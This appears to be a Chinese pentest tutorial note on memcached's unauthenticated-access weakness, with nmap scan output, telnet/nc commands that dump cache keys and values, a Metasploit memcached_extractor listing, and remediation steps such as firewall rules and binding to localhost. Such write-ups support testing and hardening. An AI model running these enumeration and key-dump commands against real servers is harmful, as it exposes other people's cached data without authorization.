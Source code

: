 ```yaml
---
title: Memcache
category:
- [Kali, Exploit]

tags:
  - null
date: 2020-12-04 20:23:36
top:
updated:
---
```


memcached是一套分布式的高速缓存系统。  
它以Key-Value（键值对）形式将数据存储在内存中，这些数据通常是应用读取频繁的。正因为内存中数据的读取远远大于硬盘，因此可以用来加速应用的访问。

由于memcached安全设计缺陷，客户端连接memcached服务器后无需认证就可读取、修改服务器缓存内容。

## 信息收集
```zsh
sudo nmap -Pn -T4 -sV -p 11211  --script memcached-info 10.198.18.1
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-27 15:39 CST
Nmap scan report for 10.198.18.1
Host is up (0.11s latency).

PORT      STATE SERVICE   VERSION
11211/tcp open  memcached Memcached 1.5.12 (uptime 363416 seconds)
| memcached-info:
|   Process ID: 268842
|   Uptime: 363417 seconds
|   Server time: 2020-11-27T07:39:06
|   Architecture: 64 bit
|   Used CPU (user): 245.883293
|   Used CPU (system): 676.125332
|   Current connections: 2057
|   Total connections: 786483
|   Maximum connections: 65535
|   TCP Port: 11211
|   UDP Port: 0
|_  Authentication: no

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

## Memcache数据库未授权访问

> 登录机器执行`netstat -an |more`命令查看端口监听情况。回显0.0.0.0:11211表示在所有网卡进行监听，存在memcached未授权访问漏洞。

### telnet/nc/netstat验证
```zsh
telnet 10.198.18.1 11211
stats # 查看memcache 服务状态 
stats items # 查看所有items 
stats cachedump 32 0 # 获得缓存key 
get :state:264861539228401373:261588 # 通过key读取相应value ，获得实际缓存内容，造成敏感信息泄露
crtl+] q   # 退出telnet

nc -vv 10.198.18.1 11211
```

### MSF相关模块
#### memcached键值提取器
```zsh
msf6 auxiliary(gather/memcached_extractor) > show info

       Name: Memcached Extractor
     Module: auxiliary/gather/memcached_extractor
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Paul Deardorff <paul_deardorff@rapid7.com>

Check supported:
  No

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS   10.198.18.2      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT    11211            yes       The target port (TCP)
  THREADS  1                yes       The number of concurrent threads (max one per host)
```

### 修复方案

1. 配置访问控制

建立iptables规则，只允许某一ip对memcache的端口进行访问。

```zsh
iptables -A INPUT -p tcp -s 192.168.0.2 —dport 11211 -j ACCEPT
```

2. 绑定监听ip
memcache如果没有开在外网的必要，可以在memcache启动时绑定ip地址为127.0.0.1
```zsh
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid
```

3. 使用普通账号运行，指定memcache用户运行

4. 修改默认端口
修改默认11211监听端口为其他端口
```zsh
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11222 -c 1024 -P /tmp/memcached.pid
```